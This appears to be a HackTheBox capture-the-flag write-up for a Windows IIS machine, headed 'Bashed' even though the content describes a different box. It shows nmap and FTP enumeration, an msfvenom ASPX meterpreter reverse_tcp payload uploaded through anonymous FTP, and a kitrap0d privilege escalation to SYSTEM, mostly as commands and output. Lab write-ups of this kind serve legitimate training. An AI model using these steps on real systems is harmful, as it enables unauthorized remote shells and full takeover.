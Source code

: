 # Bashed 

Machine Level: Easy <br />
OS: Windows

## Scanning 
I ran an aggressive nmap scan to find some ports and services running on the machine. 
```
ajread@aj-ubuntu:~/hackthebox$ nmap -A [TARGET IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-08 18:08 EST
Nmap scan report for [TARGET IP]
Host is up (0.013s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.80 seconds
```
## Enumeration
I was able to log into the machine with an anonymous ftp logon. 
```
ajread@aj-ubuntu:~/hackthebox$ ftp [TARGET IP]
Connected to [TARGET IP].
220 Microsoft FTP Service
Name ([TARGET IP]:ajread): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49158|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```
It looked as if the ftp server contained the image and htm from the page on port 80. I looked around on the ftp server and I appeared to find the version. 
```
ftp> dir
229 Entering Extended Passive Mode (|||49160|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          system_web
226 Transfer complete.
ftp> cd system_web
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||49161|)
150 Opening ASCII mode data connection.
03-18-17  01:06AM       <DIR>          2_0_50727
226 Transfer complete.
ftp> cd 2_0_50727
250 CWD command successful.
ftp> dir
229 Entering Extended Passive Mode (|||49163|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> 
```
## Initial Access
I created a shell in ASPX using msfvenom using [this](https://github.com/lexisrepo/Shells). 
```
ajread@aj-ubuntu:~/hackthebox/playground$ sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=[LOCAL IP]LPORT=4444 -f aspx > shell.aspx
[sudo] password for ajread: 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2848 bytes
```
I put the shell on the server using the anonymous ftp logon. 
```
ftp> ls
229 Entering Extended Passive Mode (|||49164|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> put shell.aspx 
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49165|)
125 Data connection already open; Transfer starting.
100% |*************************************|  2888        9.56 MiB/s    --:-- ETA
226 Transfer complete.
2888 bytes sent in 00:00 (156.60 KiB/s)
ftp> 
```
I started an ```exploit/multi/handler``` with the correct LPORT and LHOST on metasploit and navigated to ```http://[TARGET IP]/shell.aspx```. I was dropped into a meterpreter session on my local machine. 
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on [LOCAL IP]:4444 
[*] Sending stage (175686 bytes) to [TARGET IP]
[*] Meterpreter session 1 opened ([LOCAL IP]:4444 -> [LOCAL IP]:49166) at 2023-02-08 18:27:14 -0500

meterpreter > pwd
c:\windows\system32\inetsrv
meterpreter > 
```
I noticed that I was an unprivileged user, so I backgrounded the session and ran a local windows exploit suggester in metasploit. 
```
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run
```
One of the exploits stood out to me which creates a new session with SYSTEM privileges via the KiTrap0D exploit, which realies on the kitrap0d.x86.dll. 
```
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
```
I ran the exploit and was dropped into a privileged shell! 
```
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on [LOCAL IP]:7777 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 2332 launched.
[*] Reflectively injecting the DLL into 2332...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175686 bytes) to [TARGET IP]
[*] Meterpreter session 2 opened ([LOCAL IP]:7777 -> [TARGET IP]:49167) at 2023-02-08 18:39:11 -0500

meterpreter > pwd
c:\Users
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
I was able to read both the user and root flags. 
```
c:\Users\babis\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of c:\Users\babis\Desktop

11/02/2022  03:54 ��    <DIR>          .
11/02/2022  03:54 ��    <DIR>          ..
09/02/2023  01:00 ��                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   4.697.468.928 bytes free

c:\Users\babis\Desktop>
```
```
c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of c:\Users\Administrator\Desktop

14/01/2021  11:42 ��    <DIR>          .
14/01/2021  11:42 ��    <DIR>          ..
09/02/2023  01:00 ��                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   4.697.468.928 bytes free

```